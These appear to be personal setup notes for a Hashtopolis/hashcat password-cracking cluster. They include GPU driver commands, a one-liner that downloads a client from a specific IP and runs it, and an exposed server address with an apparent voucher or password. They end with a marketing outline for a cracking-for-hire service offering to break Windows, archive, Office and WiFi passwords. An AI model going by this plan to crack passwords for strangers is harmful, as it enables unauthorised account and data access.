          * 6?a
          * 8?a
          * 7?a
          * 9?a
          * 10?a
          * 11?a
          * 12?a
  * New Task
  * New Agent  
   To add new agents provide them with a valid voucher and download a client (a client is a hashtopolis client installed on an agent).
   Used vouchers are automatically deleted to prevent double spending.
   If you are asked to provide the API url on the client to connect to, you need to enter the following:
   http://34.201.59.34/api/server.php
  * Agents
  * Hashlists
  * New Hashlist
  * New Superhashlist
  * Tasks
  * Chunk Activity
  * Hashtypes
  * Groups

###### how to use `.hcmask` file on hashtopolis
* You cannot import and use `.hcmask` file on hashtopolis
* You should create one normal task by using one line in the `.hcmask` file, line by line, and then create a Super task using these normal tasks.
* Or, you can run `.hcmask` file not on the hashtopolis.
###### [Notifications](https://github.com/s3inlc/hashtopolis/wiki/Notifications)

###### [Trust or Secret Status](https://github.com/s3inlc/hashtopolis/wiki/Trust-or-Secret-Status)

##### Usage

###### [Task Creation Guidelines](https://github.com/s3inlc/hashtopolis/wiki/Task-Creation-Guidelines)
* General
* Attack modes
    * Straight
    * Straight + Rules
    * Combination
    * Brute-force
    * Hybrid
* PRINCE
* Task Settings
    * Static Chunking

###### [Registration](https://github.com/s3inlc/hashtopolis/wiki/Registration)

###### [Reports](https://github.com/s3inlc/hashtopolis/wiki/Reports)

#### Client
Note: Currently it is not recommended to use the C# client because it's not fully up-to-date with the newest features on the server.

##### Prepare scripts
###### install the drivers

sudo apt update && sudo apt install -y build-essential linux-headers-$(uname -r) p7zip-full linux-image-extra-virtual && sudo touch /etc/modprobe.d/blacklist-nouveau.conf && echo "blacklist nouveau" |sudo tee /etc/modprobe.d/blacklist-nouveau.conf && echo "blacklist lbm-nouveau" |sudo tee -a /etc/modprobe.d/blacklist-nouveau.conf && echo "options nouveau modeset=0" | sudo tee -a /etc/modprobe.d/blacklist-nouveau.conf && echo "alias nouveau off" | sudo tee -a /etc/modprobe.d/blacklist-nouveau.conf && echo "alias lbm-nouveau off" | sudo tee -a /etc/modprobe.d/blacklist-nouveau.conf && sudo echo options nouveau modeset=0 | sudo tee -a /etc/modprobe.d/nouveau-kms.conf && sudo update-initramfs -u

Reboot the instance

wget http://us.download.nvidia.com/tesla/410.72/NVIDIA-Linux-x86_64-410.72.run && sudo /bin/bash NVIDIA-Linux-x86_64-410.72.run

sudo nvidia-smi -pm 1 && sudo nvidia-smi -acp 0 && sudo nvidia-smi --auto-boost-permission=0 && sudo nvidia-smi -ac 877,1530

###### install the hashtopolis client

sudo apt-key adv --keyserver hkp://keyserver.ubuntu.com:80 --recv-keys 3FA7E0328081BFF6A14DA29AA6A19B38D3D831EF && echo "deb http://download.mono-project.com/repo/debian wheezy main" | sudo tee /etc/apt/sources.list.d/mono-xamarin.list && sudo apt-get update && sudo apt-get -y install mono-complete ca-certificates-mono && mkdir hashtopolis && cd hashtopolis && wget http://34.201.59.34/agents.php?download=1 -O hashtopolis.zip && sudo apt -y install python3-pip && pip3 install psutil && python3 hashtopolis.zip

http://34.201.59.34/api/server.php
Woaini123
Check the agents
##### [Client Prerequisites](https://github.com/s3inlc/hashtopolis/wiki/Client-Prerequisites)
* Before install the hashtopolis client on an agent, make sure that hashcat can be run properly on the agent.
* Installation procedure
    * `sudo apt-key adv --keyserver hkp://keyserver.ubuntu.com:80 --recv-keys 3FA7E0328081BFF6A14DA29AA6A19B38D3D831EF`
    * `echo "deb http://download.mono-project.com/repo/debian wheezy main" | sudo tee /etc/apt/sources.list.d/mono-xamarin.list`
    * `sudo apt-get update`
    * `sudo apt-get install mono-complete ca-certificates-mono` to install desired runtime environment
        If you do not wish to install `ca-certificates-mono` on your system you can just add your own Trusted Certificate by issuing the following command
        `mono /usr/lib/mono/4.5/certmgr.exe -ssl https://{url}`
* Log into the hashtopolis server
    * `http://34.201.59.34`
    * create a new agent and get the information
        * the download url of the hashtopolis.zip: `http://34.201.59.34/agents.php?download=1`
        * the API url: `http://34.201.59.34/api/server.php`
        * the generated voucher
* Download and install the hashtopolis client (can also be run on Windows, need python3 and .NET 4.5 be installed)
    * `mkdir hashtopolis && cd hashtopolis`
    * `wget http://34.201.59.34/agents.php?download=1 -O hashtopolis.zip`
    * `sudo apt install python3-pip`
    * `pip3 install psutil`
    * `python3 hashtopolis.zip`
    * and then enter the API url and the voucher
* Set the agent
    * `--gpu-temp-disable`, `--gpu-temp-retain`, and `--opencl-devices` should be placed into client specific "Extra parameters" field.
    * Extra parameters: `-w 3 --force` and click Save.
    * Cracker errors: Keep agent running, but save errors
    * Trust: check the "Trust agent with secret data"
    * Activity: check the "Activity"

##### [Client Manual](https://github.com/s3inlc/hashtopolis/wiki/Client-Manual)

#### Detailed Explanations
* [Cracker Binaries](https://github.com/s3inlc/hashtopolis/wiki/Detailed-Explanation%3A-Cracker-Binaries)
* [Right Groups](https://github.com/s3inlc/hashtopolis/wiki/Detailed-Explanation%3A-Right-Groups)
* [Groups](https://github.com/s3inlc/hashtopolis/wiki/Detailed-Explanation%3A-Groups)

#### Troubleshooting

##### [Frequent Problems](https://github.com/s3inlc/hashtopolis/wiki/Frequent-Problems)
* An Agent doesn't get assigned to a task even if he has the highest priority
* I get negative numbers as chunk length
* I get "Fatal Error ! Database connection failed" during the install process
* Hashes containing colons are not handled correctly
* I cannot increase max hash length over 1024 chars
* hashcat64.osx is not found
* Benchmark result is 0
* I cannot log in after installation and I'm using WAMP

## Marketing
* Propaganda
    * xiaoli WiFi
        * logo
            * reveal
        * matrix
    * Coworkers
    * Friends
    * Relatives
    * agents
    * Wechat(group, moments, nearby), QQ(group, moments, nearby), MoMo(moments,nearby, chat room), TanTan, Weibo, Facebook, Twitter, MaiMai, Douban, Nico, Blued and so on
    * bbs
        * tianya
        * 1618xiaolin
        * taobao
        * cell phone bbs
        * zhibo
        * 58 assign
        * 软文
    * local
        * cell phone fixing store
            * yakeli
        * guitar
        * restaurant
        * sticky notes
        * matrix code
        * 兼破各种密码：Windows系统密码，压缩包压缩密码，Word/Excel文档密码等等。
    * to crack packets from website
        * xioalin
        * kali
